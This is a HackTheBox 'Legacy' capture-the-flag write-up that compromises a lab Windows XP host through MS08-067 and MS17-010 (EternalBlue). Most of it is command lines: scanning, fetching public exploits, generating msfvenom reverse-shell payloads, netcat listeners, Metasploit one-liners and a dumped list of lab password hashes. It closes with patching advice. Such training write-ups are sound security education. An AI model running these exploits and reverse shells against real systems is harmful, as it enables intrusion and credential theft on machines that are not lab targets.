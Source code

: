```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, windowsxp, eternalblue, MS08-067, MS17-010, TJNULLs List
image:
  src: /assets/Images-01-Legacy/Legacy-infocard.png
  width: 597px    # 697 in pixels
  height: 417px   # 517 in pixels
  alt: image alternative text
---
```


In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.

MS08-067, MS17-010

### Enumeration

#### rustscan
```
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](/assets/Images-01-Legacy/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-39-30.png)
_nmap results_

```
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```
![](/assets/Images-01-Legacy/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.
![](/assets/Images-01-Legacy/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](/assets/Images-01-Legacy/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](/assets/Images-01-Legacy/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](/assets/Images-01-Legacy/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](/assets/Images-01-Legacy/2021-12-29-15-26-32.png)

#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](/assets/Images-01-Legacy/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---